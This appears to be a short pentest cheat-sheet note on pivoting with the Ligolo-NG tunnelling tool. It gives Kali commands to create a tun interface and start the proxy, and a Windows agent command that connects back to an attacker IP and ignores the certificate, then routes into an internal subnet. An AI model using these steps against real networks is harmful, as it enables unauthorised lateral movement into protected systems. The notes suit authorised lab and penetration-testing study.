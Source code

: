 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#Ligolo-NG  </br >
https://github.com/nicocha30/ligolo-ng
https://www.youtube.com/watch?v=DM1B8S80EvQ&t=1s  </br >
https://www.hdysec.com/double-pivoting-both-metasploit-and-manual/ </br >
https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5 </br >
#Commands
Create ligolo network adapter</br >
```
sudo ip tuntap add user kali mode tun ligolo
````

Up And Running the Network adapter ligolo </br >

```
sudo ip link set dev ligolo up
```

Start Ligolo from kali Linux (Attacker System), It will start the Ligolo Interface with port address </br >
```
>./Lproxy -selfcert (Mention Port below)
```
Connecting to attackers machine, Ignoring certificate </br >
```
WIN_PS>.\Lagent -connect 192.168.45.204:11601 -ignore-cert
```
In Kali Linux, You can see the Session connected, Check for interfaces </br >
```
Ligilo>ifconfig (Network interfaces)
```
Add network Adaper based Above command (Run this if you for got run above "sudo ip link set dev ligolo up") </br >
```
sudo ip route add 172.16.201.0/24 dev ligolo
```
After Adding the route in Windows, Run below command in ligolo terminal in Kali linux
```
Ligilo>start
```
You should able to reach before executing next command
```
>ping 172.16.201.11 
```

Credits:  [Nicolas Chatelain](https://github.com/nicocha30)


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
